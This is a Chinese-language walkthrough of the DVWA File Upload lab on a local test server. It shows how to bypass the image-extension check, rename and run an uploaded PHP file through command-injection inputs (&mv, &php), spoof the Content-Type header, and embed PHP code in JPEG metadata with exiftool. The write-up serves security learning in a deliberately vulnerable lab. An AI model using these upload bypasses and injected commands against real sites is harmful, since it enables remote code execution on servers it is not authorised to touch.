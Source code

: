 # File Upload

> Objective
> Execute any PHP function of your choosing on the target system (such as [phpinfo()](https://secure.php.net/manual/en/function.phpinfo.php)
> or [system()](https://secure.php.net/manual/en/function.system.php)) thanks to this file upload vulnerability.

### 觀察

試著上傳 *.php 檔案，這次它會檢查副檔名，限定 `jpg` or `png`

```
yo.php
yo.php.php
```

```
Your image was not uploaded. We can only accept JPEG or PNG images.
```

### 更換副檔名上傳後搭配 command injection 執行檔案

那我們就給它 jpg 吧，上傳後再想辦法把副檔名改回來，還好沒有檢查的很嚴格

```
yo.php.jpg
```

```
../../hackable/uploads/yo.php.jpg succesfully uploaded!
```

回到 command injection 的頁面，確認檔案有上傳成功

```
&ls ../../hackable/uploads
```

```
dvwa_email.png
yo.php.jpg
```

接著只要將副檔名從 `jpg` 修改回 `php` 即可

```
&mv ../../hackable/uploads/yo.php.jpg ../../hackable/uploads/yo.php
```

```
&ls ../../hackable/uploads
```

```
dvwa_email.png
yo.php
```

最後直接在這頁執行也可從上傳的資料路徑夾執行我們上傳的檔案

```
&php ../../hackable/uploads/yo.php
```

```
http://localhost:8086/hackable/uploads/yo.php
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/0fa61ad0-ae2d-4654-b092-f881fc3ff75d/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T171113Z&X-Amz-Expires=86400&X-Amz-Signature=00538e46cad98457de7077e0418d9c076893d65406a301c447e278d1f72d8b6e&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b8b021c5-5525-4870-a47e-4b11d8c74a0f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T171117Z&X-Amz-Expires=86400&X-Amz-Signature=8191eee2306fd26b8c1bc42ad96f84f37e05f41234d34661c8730c5c75534235&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---
## Update:

### 修正1: 上傳時更改 Content-Type欺騙檔案型態檢查

之前使用的方法不符合題目義，不應該透過 command injection 改檔名

其實可以直接上傳檔案，騙過後端的檢查，只要使用可以修改 request 的工具即可
```
Your image was not uploaded. We can only accept JPEG or PNG images.
```

修改 Content-Type 再重送一次

```
Content-Type: text/php -> Content-Type: image/jpeg
```
```bash
../../hackable/uploads/demo-upload.jpg.php succesfully uploaded!
```
### 修正 2: executable image

### 使用 `exiftool` 將惡意內容寫入要上傳的圖片，然後再更改檔名上傳即可
```bash
exiftool -Comment="<?php phpinfo(); __halt_compiler(); ?>" demo-upload.jpg.php
```

再利修改 Content-Type 為 `Content-Type: image/jpeg` 的方式通過檔案型態檢查

上傳後直接瀏覽惡意檔案的位置
```
http://dvwa.localtest/hackable/uploads/demo-upload.jpg.php
```

- Injecting executable PHP code to a JPG image file - One Step! Code
[https://onestepcode.com/injecting-php-code-to-jpg/](https://onestepcode.com/injecting-php-code-to-jpg/)
